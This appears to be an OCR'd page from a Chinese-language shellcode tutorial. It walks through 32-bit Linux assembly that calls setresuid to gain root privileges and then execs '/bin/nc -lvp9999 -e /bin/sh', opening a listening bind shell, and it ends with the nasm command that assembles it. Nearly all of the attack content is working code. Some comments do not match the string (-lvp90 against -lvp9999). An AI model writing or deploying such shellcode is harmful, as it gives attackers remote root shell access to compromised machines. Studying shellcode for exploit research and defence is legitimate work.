 现在使用汇编语言编写程序

```
root@MINDZSEC:~# nano ntcat.asm
```



```
jmp short todo
shellcode:
;from man setresuid: setresuid(uid_t ruid, uid_t euid, uid_t suid)
xor eax, eax ;Zero out eax
xor ebx, ebx;Zero out ebx
xor ecx, ecx;Zero out ecx
cdq;Zero out edx using the sign bit from eax
mov BYTE al, 0xa4 ;setresuid syscall 164 (0xa4)
int 0x80;syscall execute
pop esi;esi contain the string in db
xor eax, eax;Zero out eax
mov[esi + 7], al;null terminate /bin/nc
mov[esi +  16], al ;null terminate -lvp90
mov[esi +  26], al;null terminate -e/bin/sh
mov[esi +  27], esi;store address of /bin/nc in AAAA
lea ebx, [esi + 8];load address of -lvp90 into ebx
mov[esi +31], ebx;store address of -lvp90 in BBB taken from ebx
lea ebx, [esi + 17];load address of -e/bin/sh into  ebx
mov[esi + 35], ebx;store address of -e/bin/sh in CCCC taken from ebx
mov[esi + 39], eax ;Zero out DDDD
mov al, 11;11 is execve  syscakk number
mov ebx, esi;store address of  /bin/nc 
lea ecx, [esi + 27];load address of ptr to argv[] array
lea edx, [esi + 39] ;envp[] NULL
int 0x80;syscall execute 
todo:
call shellcode
db '/bin/nc#-lvp9999#-e/bin/sh#AAAABBBBCCCCDDDD'
;   01234567890123456789012345678901234567890123
```

在这段代码中我们做了以下操作：

1. 使用xor指令去清零eax，ebx，ecx等寄存器

2. 将命令写到了shellcode代码中了，即：



```
db '/bin/nc#-lvp9999#-e/bin/sh#AAAABBBBCCCCDDDD'
;   01234567890123456789012345678901234567890123
```

3. 在命令下面还使用了数字进行位置的注释

接下来使用nasm编译这段代码

```
root@MINDZSEC:~# nasm -f elf ntcat.asm
```

